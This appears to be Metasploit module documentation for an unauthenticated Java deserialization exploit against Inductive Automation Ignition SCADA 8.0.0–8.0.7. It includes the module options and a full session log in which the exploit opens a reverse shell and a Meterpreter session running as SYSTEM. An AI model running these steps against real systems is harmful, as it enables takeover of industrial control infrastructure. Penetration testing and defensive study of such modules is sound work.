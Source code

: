 This module exploits a Java deserialization vulnerability in the Inductive Automation Ignition SCADA product, versions 8.0.0 to (and including) 8.0.7.
This exploit was tested on versions 8.0.0 and 8.0.7 on both Linux and Windows.
The default configuration is exploitable by an unauthenticated attacker, which can achieve remote code execution as SYSTEM on a Windows installation and root on Linux.
The vulnerability was discovered and exploited at Pwn2Own Miami 2020 by the Flashback team (Pedro Ribeiro + Radek Domanski).

## Vulnerable Application

Vulnerable versions can be downloaded from here: https://inductiveautomation.com/downloads/archive/8.0.7
We have confirmed versions 8.0.0 to 8.0.7 are vulnerable.

## Example

```
Module options (exploit/multi/scada/inductive_ignition_rce):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    8088             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host

Exploit targets:

   Id  Name
   --  ----
   0   Automatic
   1   Windows
   2   Linux
```


## Output

```
msf5 exploit(multi/scada/inductive_ignition_rce) > set rhost 10.10.10.204
rhost => 10.10.10.204
msf5 exploit(multi/scada/inductive_ignition_rce) > set lhost 10.10.10.1
lhost => 10.10.10.1
msf5 exploit(multi/scada/inductive_ignition_rce) > check

[*] 10.10.10.204:8088 - Detected version 8.0.7
[*] 10.10.10.204:8088 - The target appears to be vulnerable.
msf5 exploit(multi/scada/inductive_ignition_rce) > run

[*] Started reverse TCP handler on 10.10.10.1:4444
[*] 10.10.10.204:8088 - Attacking Windows target
[*] 10.10.10.204:8088 - Detected version 8.0.7
[*] 10.10.10.204:8088 - Sending payload...
[+] 10.10.10.204:8088 - Success, shell incoming!
[*] Sending stage (180291 bytes) to 10.10.10.204
[*] Meterpreter session 1 opened (10.10.10.1:4444 -> 10.10.10.204:49186) at 2020-06-12 11:16:54 +0700

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 784 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Program Files\Inductive Automation\Ignition>whoami
whoami
nt authority\system

C:\Program Files\Inductive Automation\Ignition>
```

